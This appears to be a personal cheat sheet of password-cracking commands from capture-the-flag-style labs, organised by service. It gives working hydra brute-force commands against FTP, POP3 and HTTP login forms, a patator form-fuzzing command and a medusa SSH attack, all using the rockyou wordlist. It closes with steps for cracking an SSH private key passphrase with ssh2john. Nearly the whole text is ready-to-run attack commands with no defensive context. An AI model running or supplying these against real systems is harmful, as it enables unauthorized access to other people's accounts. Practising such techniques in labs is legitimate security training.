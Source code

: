# Password Cracking

## FTP
`hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.135.19`

## POP
`hydra -l miles -P /usr/share/wordlists/rockyou.txt -f 10.10.102.21 pop3 -V`

## HTTP 
hydra - remember to test the final page if redirected
`hydra -l manager -P /usr/share/wordlists/rockyou.txt 10.10.65.251 http-post-form "/content/as?type=signin&timeStamp=1637967506085:user=^USER^&passwd=^PASS^:S=logout" -vV -f`

`hydra -l manager -P /usr/share/wordlists/rockyousingle.txt 10.10.55.197 http-post-form "/content/as?type=signin&timeStamp=1637967506085:user=^USER^&passwd=^PASS^:S=Database mysql Connected" -vV -f`
Add headers like this -  :H=Origin\: http\://10.10.91.103:H=Accept\: */*:H=Content-Type\: application/x-www-form-urlencoded
S - success, F - fail - json may need escaping - F={\"status\"\:0,\"statusInfo\"\:\"Login failed\"}

patator - here, follow = 0 so that redirect is not followed and we can grep on JSON - no need to escape special chars in JSON
`patator http_fuzz url='http://10.10.55.197/content/as/?type=signin&timeStamp=1638482840080'  method=POST follow=0 accept_cookie=1 body='user=manager&passwd=FILE0&server=1&lang=en' 0=/usr/share/wordlists/rockyousingle.txt  -x ignore:fgrep='"status":1,"statusInfo":"Login success"'`

## SSH
Medusa
`medusa -M ssh -h 10.10.238.159 -u itguy -P "/usr/share/wordlists/rockyou.txt"`

## RSA private key passphrase
`wget https://raw.githubusercontent.com/magnumripper/JohnTheRipper/bleeding-jumbo/run/ssh2john.py`
`python ssh2john.py keyfile > keyfile.hash`
`ssh -i keyfile user@x.x.x.x`